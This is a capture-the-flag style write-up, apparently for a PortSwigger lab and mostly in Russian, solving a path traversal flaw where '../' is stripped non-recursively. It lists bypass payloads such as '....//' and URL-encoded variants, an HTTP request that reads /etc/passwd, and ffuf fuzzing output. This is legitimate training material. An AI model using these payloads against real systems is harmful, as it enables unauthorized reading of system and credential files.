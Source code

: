 # File path traversal, traversal sequences stripped non-recursively
PRACTITIONER

This lab contains a path traversal vulnerability in the display of product images.

The application strips path traversal sequences from the user-supplied filename before using it.

To solve the lab, retrieve the contents of the /etc/passwd file.

## Решение
Попробую различные способы обхода вырезания последовательностей символов навигации по дереву каталогов:
* `/image?filename=....\/....\/....\/....\/etc/passwd`
* `/image?filename=..//..//..//..//etc//passwd`
* `/image?filename=...//....//....//....//etc/passwd`
```
GET /image?filename=...//....//....//....//etc/passwd HTTP/2
Host: 0afa000803f7c64a8251667600ee0079.web-security-academy.net
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.88 Safari/537.36
Cache-Control: max-age=0
```
Задание выполнено.
### Перебор
Перебор по словарю [dotdotpwn.txt](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Directory%20Traversal/Intruder/dotdotpwn.txt) принёс ряд результатов, среди них:
* `/image?filename=%2e%2e%2e%2f%2e%2f%2e%2e%2e%2f%2e%2f%2e%2e%2e%2f%2e%2fetc%2fpasswd`
* `/image?filename=%2e%2e%2e%2f%2e%2f%2e%2e%2e%2f%2e%2f%2e%2e%2e%2f%2e%2f%2e%2e%2e%2f%2e%2fetc%2fpasswd`
* `/image?filename=%2e%2e%2e%2f%2e%2f%2e%2e%2e%2f%2e%2f%2e%2e%2e%2f%2e%2f%2e%2e%2e%2f%2e%2f%2e%2e%2e%2f%2e%2f%2e%2e%2e%2f%2e%2fetc%2fpasswd`
* `/image?filename=%2e%2e%2e%2f%2e%2f%2e%2e%2e%2f%2e%2f%2e%2e%2e%2f%2e%2f%2e%2e%2e%2f%2e%2fetc%2fpasswd`
* `/image?filename=%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2fetc%2f%2fpasswd`
Они сводятся к URL-кодированию и к тому, что комбинация символов "../" помещается в различные части пути, например, `/image?filename=../../../../etc/passwd` превращается в:
1. `/image?filename=....//....//....//....//etc/passwd`
2. `/image?filename=..././..././..././..././etc/passwd`

Через ffuf:
```
┌──(tinker㉿catpants)-[~/projects/web-security]
└─$ ffuf -request pt03.txt -c -t 10 -w ~/dotdotpwn.txt 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : https://0add0063045490768087a8c6007a0095.web-security-academy.net/image?filename=FUZZ
 :: Wordlist         : FUZZ: /home/tinker/dotdotpwn.txt
 :: Header           : Accept-Language: en-US,en;q=0.5
 :: Header           : Referer: https://0add0063045490768087a8c6007a0095.web-security-academy.net/
 :: Header           : Te: trailers
 :: Header           : Host: 0add0063045490768087a8c6007a0095.web-security-academy.net
 :: Header           : Cookie: session=vaVlAfazICl6QDr1PvzUOJDRhVgLGgRG
 :: Header           : Accept: image/avif,image/webp,*/*
 :: Header           : Sec-Fetch-Mode: no-cors
 :: Header           : Sec-Fetch-Site: same-origin
 :: Header           : User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
 :: Header           : Accept-Encoding: gzip, deflate, br
 :: Header           : Sec-Fetch-Dest: image
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 10
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

..././..././..././etc/passwd [Status: 200, Size: 2316, Words: 25, Lines: 42, Duration: 141ms]
..././..././..././etc/issue [Status: 200, Size: 26, Words: 5, Lines: 3, Duration: 104ms]
..././..././..././..././etc/passwd [Status: 200, Size: 2316, Words: 25, Lines: 42, Duration: 108ms]
..././..././..././..././etc/issue [Status: 200, Size: 26, Words: 5, Lines: 3, Duration: 116ms]
..././..././..././..././..././etc/issue [Status: 200, Size: 26, Words: 5, Lines: 3, Duration: 121ms]
..././..././..././..././..././etc/passwd [Status: 200, Size: 2316, Words: 25, Lines: 42, Duration: 107ms]
..././..././..././..././..././..././etc/passwd [Status: 200, Size: 2316, Words: 25, Lines: 42, Duration: 118ms]                                                                                                     
..././..././..././..././..././..././etc/issue [Status: 200, Size: 26, Words: 5, Lines: 3, Duration: 111ms]
.../.%2f.../.%2f.../.%2fetc%2fpasswd [Status: 200, Size: 2316, Words: 25, Lines: 42, Duration: 127ms]
.../.%2f.../.%2f.../.%2fetc%2fissue [Status: 200, Size: 26, Words: 5, Lines: 3, Duration: 106ms]
.../.%2f.../.%2f.../.%2f.../.%2fetc%2fpasswd [Status: 200, Size: 2316, Words: 25, Lines: 42, Duration: 95ms]                                                                                                        
.../.%2f.../.%2f.../.%2f.../.%2fetc%2fissue [Status: 200, Size: 26, Words: 5, Lines: 3, Duration: 102ms]
.../.%2f.../.%2f.../.%2f.../.%2f.../.%2fetc%2fpasswd [Status: 200, Size: 2316, Words: 25, Lines: 42, Duration: 138ms]                                                                                               
.../.%2f.../.%2f.../.%2f.../.%2f.../.%2f.../.%2fetc%2fissue [Status: 200, Size: 26, Words: 5, Lines: 3, Duration: 116ms]                                                                                            
.../.%2f.../.%2f.../.%2f.../.%2f.../.%2f.../.%2fetc%2fpasswd [Status: 200, Size: 2316, Words: 25, Lines: 42, Duration: 117ms]    
```
